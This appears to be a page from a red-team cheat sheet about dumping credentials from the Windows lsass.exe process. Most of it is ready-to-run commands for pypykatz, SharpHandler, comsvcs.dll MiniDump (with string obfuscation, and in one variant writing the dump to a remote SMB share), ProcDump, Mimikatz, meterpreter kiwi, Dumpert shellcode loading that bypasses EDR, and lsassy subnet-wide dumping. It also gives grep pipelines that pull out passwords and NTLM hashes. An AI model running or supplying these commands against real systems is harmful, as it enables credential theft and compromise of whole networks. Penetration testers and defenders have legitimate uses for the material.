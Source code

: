 ```yaml
---
description: Local Security Authority Subsystem Service
---
```


# lsass.exe




## Silent Process Exit

* [https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
* [https://github.com/deepinstinct/LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)
* [https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit](https://github.com/lengjibo/RedTeamTools/tree/master/windows/LsassSilentProcessExit)




## Reusing Open Handles



### Pypykatz

* [https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* [https://github.com/skelsec/pypykatz/releases/latest](https://github.com/skelsec/pypykatz/releases/latest)

```
Cmd > .\pypykatz.exe live lsa --method handledup
```



### SharpHandler

* [https://github.com/jfmaes/SharpHandler](https://github.com/jfmaes/SharpHandler)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1)

Scan if there are dupeable handles to use:

```
PS > Invoke-SharpHandler -C "-s"
```

Write a gzip-compressed minidump to specified location:

```
PS > Invoke-SharpHandler -C "-w -c -l=C:\Windows\Temp\pony.dat"
```

Dump and parse with SharpKatz's `logonpasswords`:

```
PS > Invoke-SharpHandler -C "-d"
```




## Tools



### comsvcs.dll

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)

```
PS > $proc = 'ls'+'Ass'
PS > Get-Process $proc
PS > rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PROCESS_PID> C:\Windows\System32\spool\drivers\color\pony.dat full
```

Not touching the disk (using an SMB share):

```
PS > net use z: \\10.10.13.37\share
PS > rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump (Get-Process ('ls'+'Ass')).id z:\pony.dat full
```

One-liner:

```
Cmd > %COMSPEC% /Q /c echo powershell.exe -NoP -C "%WINDIR%\System32\rundll32.exe %WINDIR%\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id %WINDIR%\Temp\pony.arj full;Wait-Process -Id (Get-Process rundll32).Id" 2^>^&1 > temp.bat & %COMSPEC% /Q /c temp.bat & del temp.bat
```



### ProcDump

* [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [https://download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)

Dump and parse:

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
$ pypykatz lsa minidump lsass.dmp > lsass-pypykatz.minidump
Or
Cmd > .\mimikatz.exe "sekurlsa::minidump out.txt" "exit"
```

Grep for secrets:

```
 # Mimikatz
$ grep '* Username : ' out.txt -A2 | grep -e Username -e Password -e NTLM | grep -v null | xclip -i -sel c
 # Pypykatz
$ grep -P '\tusername ' out.txt -A2 | grep -e username -e password | grep -v None | xclip -i -sel c
$ grep -P 'Username: ' out.txt -A4 | grep -e Username -e Domain -e NT | grep -v None | xclip -i -sel c
```



### Mimikatz

In case of Windows 10 version 1803-1809 use [Mimikatz v2.1.1](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip), see [Key import error](https://github.com/gentilkiwi/mimikatz/issues/248):

```
Cmd > .\mimikatz.exe "privilege::debug" "log out.txt" "sekurlsa::logonpasswords full" "exit"
```


#### kiwi

```
meterpreter > getsystem
meterpreter > load kiwi
meterpreter > creds_msv
meterpreter > creds_all
meterpreter > lsa_dump_secrets
meterpreter > kiwi_cmd '"privilege::debug" "sekurlsa::logonpasswords full" "exit"'
```



### Dumpert

* [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)
* [https://github.com/outflanknl/Dumpert](https://github.com/outflanknl/Dumpert)

Dump lsass.exe using direct syscalls and removing user-land API hooks:

```
Cmd > rundll32.exe .\Outflank-Dumpert-DLL.dll,Dump
```

Using [sRDI](https://github.com/monoxgas/sRDI) (**s**hellcode **R**eflective **D**LL **I**njection) technique:

1. Compile [*Outflank-Dumpert-DLL.dll*](https://github.com/outflanknl/Dumpert/tree/master/Dumpert-DLL).
2. Convert it to position independent shellcode with [*ConvertToShellcode.py*](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py): `python3 ConvertToShellcode.py Outflank-Dumpert-DLL.dll`.
3. Use a shellcode loader of your choice to dump LSASS.



### lsassy

* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py)
* [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)

```
$ lsassy 10.10.13.0/24 -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M lsassy
```

